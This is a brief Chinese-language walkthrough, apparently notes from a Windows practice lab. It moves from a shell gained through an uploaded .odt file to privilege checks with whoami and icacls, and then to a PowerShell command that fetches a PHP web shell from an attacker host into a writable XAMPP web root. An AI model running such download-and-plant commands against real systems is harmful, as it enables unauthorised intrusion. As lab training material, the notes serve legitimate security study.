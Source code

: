 
上传odt文件，成功收到shell

![image-20250306122617988](./PG_win.assets/image-20250306122617988.png)

拿到local

![image-20250306123203470](./PG_win.assets/image-20250306123203470.png)

信息收集

```
whoami /priv
PRIVILEGES INFORMATION              Privilege Name                    Description   State
SeChangeNotifyPrivilege                 Bypass traverse checking          Enabled  
SeCreateGlobalPrivilege                  Create global objects                Enabled  
SeIncreaseWorkingSetPrivilege       Increase a process working set  Disabled
```

使用`icacls`检查网站目录发现可以写入

```
icacls "C:\xampp\htdocs"
```

写入php-shell

```
iwr -uri http://192.168.45.161:90/btshell.php -Outfile btshell.php
```

拿到apache的权限
